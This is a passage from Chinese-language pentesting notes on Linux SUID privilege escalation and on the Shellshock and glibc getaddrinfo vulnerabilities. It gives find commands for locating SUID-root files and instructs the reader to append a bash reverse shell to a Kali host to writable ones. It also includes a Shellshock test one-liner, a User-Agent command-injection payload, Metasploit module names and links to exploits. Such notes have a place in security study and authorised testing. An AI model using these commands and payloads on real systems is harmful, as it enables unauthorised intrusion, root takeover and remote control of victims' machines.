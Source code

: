 并不是说程序存在 suid 位就可以提权,还需要看程序的所有者

```bash
find / -perm -u=s 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;
```
筛选出其中所有人有 rwx 权限的文件,添加如下一句话:
```bash
bash -i >& /dev/tcp/<kali-ip>/port 0>&1
```

---

### 远程漏洞

**CVE-2014-6271** Bash 远程代码执行漏洞"破壳"
- 简介

    GNU Bash 是美国软件开发者布莱恩-福克斯（Brian J. Fox）为 GNU 计划而编写的一个 Shell（命令语言解释器），它运行于类 Unix 操作系统中（Linux 系统的默认 Shell），并能够从标准输入设备或文件中读取、执行命令，同时也结合了一部分 ksh 和 csh 的特点。

    GNU Bash 4.3 及之前版本中存在安全漏洞，该漏洞源于程序没有正确处理环境变量值内的函数定义。远程攻击者可借助特制的环境变量利用该漏洞执行任意代码。以下产品和模块可能会被利用：OpenSSH sshd 中的 ForceCommand 功能，Apache HTTP Server 中的 mod_cgi 和 mod_cgid 模块，DHCP客户端等。（说明：该漏洞的补丁并没有完全修复该问题，CNNVD-201409-956 补充了不完整修复后仍存在的问题）

- 相关文章
    - [Bash远程代码执行漏洞"破壳"(CVE-2014-6271)分析](https://www.antiy.com/response/CVE-2014-6271.html)

- POC | Payload | exp
    - [scottjpack/shellshock_scanner](https://github.com/scottjpack/shellshock_scanner)
    - [Bash - 'Shellshock' Environment Variables Command Injection](https://www.exploit-db.com/exploits/34766)

- 本地验证方法

    `env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"`

    执行命令后,如果显示 Vulnerable CVE-2014-6271,证系统存在漏洞,可改变 echo Vulnerable CVE-2014-6271 为任意命令进行执行.

    `User-Agent: () { :;}; whoami`

- MSF 模块
    ```bash
    use exploit/linux/http/ipfire_bashbug_exec
    use exploit/multi/http/cups_bash_env_exec
    use exploit/unix/dhcp/bash_environment
    ```

**CVE-2015-7547**
- 简介

    Google 安全团队发现 glibc 存在的溢出漏洞。glibc 的 DNS 客户端解析器中存在基于栈的缓冲区溢出漏洞。当软件用到 getaddrinfo 库函数（处理名字到地址以及服务到端口的转换）时，攻击者便可借助特制的域名、DNS 服务器或中间人攻击利用该漏洞，控制软件，并试图控制整个系统。

    攻击者使用恶意的 DNS 域名服务器创建类似于 evildomain.com 的域名，然后向目标用户发送带有指向该域名的链接的邮件，一旦用户点击该链接，客户端或浏览器将会开始查找 evildomain.com，并最终得到恶意服务器的 buffer-busting 响应。该域名被嵌入服务器日志中，一旦解析就会触发远程代码执行，SSH 客户端也会因此被控制。或者，位于目标用户网络中的中间人攻击者可以篡改 DNS 响应，向恶意代码中动态注入负载。
